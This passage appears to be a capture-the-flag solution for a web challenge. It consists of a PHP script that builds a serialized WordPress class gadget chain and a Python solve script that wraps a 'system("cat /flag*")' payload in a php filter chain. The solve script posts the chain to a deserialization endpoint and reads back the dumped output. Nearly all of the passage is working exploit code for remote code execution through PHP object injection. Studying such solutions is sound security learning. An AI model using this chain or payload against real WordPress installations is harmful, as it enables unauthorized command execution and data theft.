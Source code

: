 ```php
    } 
}

$b = array("blockName" => "hehe");
$c = new WP_Block_Patterns_Registry($argv[1]);
$a = new WP_Block_List(array("class" => $b),"2",$c);
$d = new WP_HTML_Tag_Processor($a);
$e = new SecureTableGenerator($d);
echo base64_encode(serialize($e));

?>
```
* solve.py
```python
import requests
import subprocess

URL = "http://localhost/"
# URL = "https://fancy-web-1vilerf2hxwh.chals.sekai.team/"

payload = '<?php system("cat /flag* / > /var/www/html/wp-content/uploads/hihi.txt");?>'

res = subprocess.run(['python3', 'php_filter_chain_generator.py', '--chain', payload], capture_output=True, text=True)
gadget = res.stdout.split('\n', 1)[1]

res = subprocess.run(['php', 'chain.php', gadget], capture_output=True, text=True)
b64_ser = res.stdout

def trigger():
    data = {
        'serialized_data':b64_ser, 
        'generate': 1
    }
    r = requests.post(URL, data=data)

def read_flag():
    r = requests.get(URL + "wp-content/uploads/hihi.txt")
    print(r.text)

trigger()
read_flag()
```